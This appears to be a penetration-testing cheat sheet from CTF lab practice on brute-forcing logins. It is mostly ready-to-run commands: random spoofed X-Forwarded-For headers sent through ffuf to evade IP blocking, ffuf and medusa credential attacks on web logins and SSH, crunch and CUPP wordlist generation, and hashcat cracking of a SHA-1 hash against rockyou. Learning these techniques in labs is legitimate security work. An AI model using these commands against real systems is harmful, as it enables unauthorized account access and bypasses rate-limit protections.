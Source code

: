 ##### Bypass protection

1. Use header
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```
1. IP block may be reset on success login or request counter may be reset
2. Account lock after a number of fail attempts
3. captcha



#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

#### Default passwords:
- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

https://wiki.skullsecurity.org/index.php?title=Passwords

#### Generate passwords:

`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`user@thm$  crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### Username anarchy
```shell
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```



detect hash type
`λ kali ~ → hashid 8d6e34f987851aa599257d3831a1af040886842f`


dict based attack on sha-1
`λ kali ~ → hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`

#### Medusa

```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
la1n23@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
